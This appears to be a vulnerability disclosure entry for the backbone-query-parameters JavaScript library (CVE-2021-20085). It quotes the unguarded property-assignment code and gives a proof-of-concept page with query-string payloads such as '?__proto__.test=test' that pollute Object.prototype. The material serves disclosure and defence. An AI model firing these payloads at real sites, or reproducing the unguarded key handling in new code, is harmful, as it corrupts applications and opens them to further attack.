 ## backbone-query-parameters

URL: https://github.com/jhudson8/backbone-query-parameters

### CVE
[CVE-2021-20085](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-20085)

### Vulnerable code fragment

https://github.com/jhudson8/backbone-query-parameters/blob/d6fb511bddc1b213a3b766bd10dfaf5d3b5d5aab/backbone.queryparams.js

```js
  _extractParameters: function(route, fragment) {
    ...
      if (queryString) {
        var self = this;
        iterateQueryString(queryString, function(name, value) {
          self._setParamValue(name, value, data);

  ...

  _setParamValue: function(key, value, data) {
    // use '.' to define hash separators
    key = key.replace('[]', '');
    key = key.replace('%5B%5D', '');
    var parts = key.split('.');
    var _data = data;
    for (var i=0; i<parts.length; i++) {
      var part = decodeURIComponent(parts[i]);
      if (i === parts.length-1) {
        // set the value
        _data[part] = this._decodeParamValue(value, _data[part]);
      } else {
        _data = _data[part] = _data[part] || {};
      }
    }
  },
```

### PoC
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/underscore.js/1.11.0/underscore-min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/backbone.js/1.4.0/backbone-min.js"></script>
<script src="https://raw.githack.com/jhudson8/backbone-query-parameters/d6fb511bddc1b213a3b766bd10dfaf5d3b5d5aab/backbone.queryparams.js"></script>
<script>
  var AppRouter = Backbone.Router.extend({
   routes: {
       "*vars":                "test"
   },
   test: function(vars) {
   }
});
var appRouter = new AppRouter();
Backbone.history.start();
</script>
```
```
?__proto__.test=test
?constructor.prototype.test=test
?__proto__.array=1|2|3
```